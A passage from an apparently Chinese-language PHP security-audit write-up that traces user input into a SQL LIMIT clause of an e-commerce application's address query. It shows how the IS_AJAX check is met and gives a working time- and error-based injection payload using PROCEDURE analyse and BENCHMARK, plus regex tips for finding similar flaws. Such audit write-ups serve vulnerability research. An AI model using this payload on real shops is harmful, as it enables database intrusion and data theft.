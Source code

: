             return $this-&gt;query($sql);
        `}`
    `}`
```

然后回头看下调用需要满足的条件:

`if (IS_AJAX) `{``

下面介绍下寻找定义的技巧,(ps我以前第一次审计的时候看这东西很懵b,因为没有弄过开发,木有经验。)

`IS_AJAX` 这种很明显就是宏定义,直接搜索`define('IS_AJAX'`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/006tNc79gy1fytbw98ccdj30vq08240b.jpg)

```
public function __construct() `{`
        $this-&gt;model = model('Base')-&gt;model;
        $this-&gt;cloud = Cloud::getInstance();
        // 定义当前请求的系统常量
        define('NOW_TIME', $_SERVER ['REQUEST_TIME']);
        define('REQUEST_METHOD', $_SERVER ['REQUEST_METHOD']);
        define('IS_GET', REQUEST_METHOD == 'GET' ? true : false );
        define('IS_POST', REQUEST_METHOD == 'POST' ? true : false );
        define('IS_PUT', REQUEST_METHOD == 'PUT' ? true : false );
        define('IS_DELETE', REQUEST_METHOD == 'DELETE' ? true : false );
        define('IS_AJAX', (isset($_SERVER ['HTTP_X_REQUESTED_WITH']) &amp;&amp; strtolower($_SERVER ['HTTP_X_REQUESTED_WITH']) == 'xmlhttprequest')); 
        load_file(ROOT_PATH . 'data/certificate/appkey.php');
    `}`
```

控制器基类的构造函数里面定义了：`define('IS_AJAX',);`

所以利用方式就很简单了,两个可控参数都进去sql了,随便取一个

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws2.sinaimg.cn/large/006tNc79gy1fytc6pzoqjj31160eegpd.jpg)

跟进下执行知道:

`$sql=select ua.*,u.address_id as adds_id from ecs_user_address as ua left join ecs_users as u on ua.address_id =u.address_id where ua.user_id = 0 order by ua.address_id limit 1,`

然后直接进入查询

`return $this-&gt;query($sql);`

所以可以构造payload:

```
last=1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)#
```

关于其他limit点,在介绍一些我的**skills**:

通过搜索正则 `limit ' .(.*)$num`、`limit.`:

`Searching 48 files for "limit ' .(.*)$num" (regex)`

```